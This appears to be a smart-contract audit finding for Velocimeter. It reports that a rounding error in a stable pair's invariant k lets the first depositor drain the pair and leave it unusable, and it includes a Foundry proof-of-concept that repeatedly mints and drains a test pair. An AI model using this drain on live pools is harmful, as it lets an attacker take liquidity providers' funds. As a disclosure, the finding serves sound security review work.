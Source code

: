 Trendy Emerald Tadpole

High

# First depositor in stable pair can DOS pool

## Summary
This issue was first brought up in the [Velodrome Spearbit Audit](https://solodit.xyz/issues/first-liquidity-provider-of-a-stable-pair-can-dos-the-pool-spearbit-none-velodrome-finance-pdf).

The first depositor in a stable pair can DOS the pool by depositing a very small amount such that the invariant $k$ is 0.

## Vulnerability Detail

The invariant $k$ is calculated as: https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

The value `_a` will be 0 due to the rounding error if $x * y < 1e18$ which in turn will cause $k$ to be 0. That will allow the user to take out all the liquidity in the pair.

Here's the modified PoC from the Spearbit report:
```sol
// PairTest.t.sol
    function drainPair(Pair _pair, uint256 initialFraxAmount, uint256 initialDaiAmount) internal {
        DAI.transfer(address(_pair), 1);
        uint256 amount0;
        uint256 amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        _pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(_pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        _pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        deployOwners();
        deployPairCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        deployVoter();
        vm.prank(address(this), address(this));
        Pair _pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for (uint256 i = 0; i < 10; i++) {
            DAI.transfer(address(_pair), 10_000_000);
            FRAX.transfer(address(_pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint256 liquidity = _pair.mint(address(this));
            console.log("pair:", address(_pair), "liquidity:", liquidity);
            console.log("total liq:", _pair.balanceOf(address(this)));
            drainPair(_pair, FRAX.balanceOf(address(_pair)), DAI.balanceOf(address(_pair)));
            console.log("DAI balance:", DAI.balanceOf(address(_pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(_pair)));
            require(DAI.balanceOf(address(_pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(_pair)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(_pair), 1 ether);
        FRAX.transfer(address(_pair), 1 ether);
        vm.expectRevert();
        _pair.mint(address(this));
    }
```

## Impact
The first depositor in a stable pair can DOS it.

## Code Snippet

## Tool used

Manual Review

## Recommendation
see Spearbit report.
